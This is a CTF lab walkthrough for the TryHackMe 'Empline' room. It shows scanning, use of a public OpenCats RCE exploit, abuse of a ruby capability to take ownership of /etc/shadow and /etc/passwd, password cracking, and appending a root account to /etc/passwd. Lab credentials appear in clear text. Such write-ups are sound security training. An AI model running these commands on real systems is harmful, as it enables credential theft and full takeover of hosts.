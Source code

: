 # Empline

**Room Link:** [https://tryhackme.com/room/empline](https://tryhackme.com/room/empline)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir --url http://$VICTIM/ -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
echo "$VICTIM job.empline.thm" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

OpenCats 0.9.4 has a RCE exploit.

Exploit: [https://www.exploit-db.com/raw/50585](https://www.exploit-db.com/raw/50585)

**Kali**

```
chmod +x exploit.sh 
./exploit.sh 
./exploit.sh http://job.empline.thm/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /etc/shadow
ruby -e 'require "fileutils"; FileUtils.chown("www-data", "www-data", "/etc/shadow")'
ls -lah /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

Now that we can read both f these files we can transfer them to Kali. I let this run for a while but it wasn't cracking any hashes.

```
cat /etc/passwd
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I went back to the check the box and found the database credentials&#x20;

**Victim**

```
find / -name "config.php"
cat /var/www/opencats/config.php 
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
mysql -h $VICTIM -u james -png6pUFvsGNtw  
```

**Kali(mysql)**

```
show databases;
use opencats
show tables;  
select * from user;  
```



There were a few hashes from users so I put them in crackstation and one returned a result.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh george@$VICTIM
Password: pretonnevippasempre
```



## Privilege Escalation

Since I had access to change any file already I just added a new root user to passwd

**Victim**

```
ruby -e 'require "fileutils"; FileUtils.chown("george", "george", "/etc/passwd")'
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
